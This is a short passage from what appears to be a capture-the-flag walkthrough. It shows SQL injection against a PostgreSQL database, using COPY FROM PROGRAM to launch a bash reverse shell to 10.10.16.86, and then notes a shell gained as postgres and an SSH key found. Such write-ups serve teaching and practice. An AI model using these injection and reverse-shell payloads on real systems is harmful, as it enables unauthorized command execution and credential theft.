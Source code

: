 - Let's try exploit it.
- by inserting this:
	- `';DROP TABLE IF EXISTS cmd_exec;--`
	- `';CREATE TABLE cmd_exec(cmd_output text);--`
	- `';COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.16.86/9901 0>&1";'--`

## Reverse Shell

- Got the reverse shell

![shell as postgres](15.png "shell as postgres")

- Found ssh key

![found ssh key](16.png "found ssh key")
